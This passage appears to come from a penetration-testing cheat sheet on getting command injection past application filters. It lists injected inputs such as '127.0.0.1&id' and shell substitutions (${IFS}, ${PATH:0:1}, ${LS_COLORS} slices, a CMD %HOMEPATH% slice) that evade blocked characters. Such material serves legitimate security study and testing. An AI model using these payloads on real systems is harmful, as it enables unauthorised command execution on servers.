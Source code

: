 <figure><img src="../../.gitbook/assets/cmd_inj_waf_app.png" alt=""><figcaption><p>Figure 3: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try methods below!

## Manual Bypass

### Blacklisted Characters

#### Bash

`env` lists all environment variables.

| Blocked | Alternative(s)                                                                                          |
| ------: | ------------------------------------------------------------------------------------------------------- |
|     `+` | <p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p> |
|     `/` | `${PATH:0:1}`                                                                                           |
|     `;` | `${LS_COLORS:10:1}`                                                                                     |
|     `:` | `${LS_COLORS:4:1}`                                                                                      |

#### CMD

`set` lists all environment variables.

| Blocked | Alternative(s)     |
| ------: | ------------------ |
|     `\` | `%HOMEPATH:~6,-4%` |
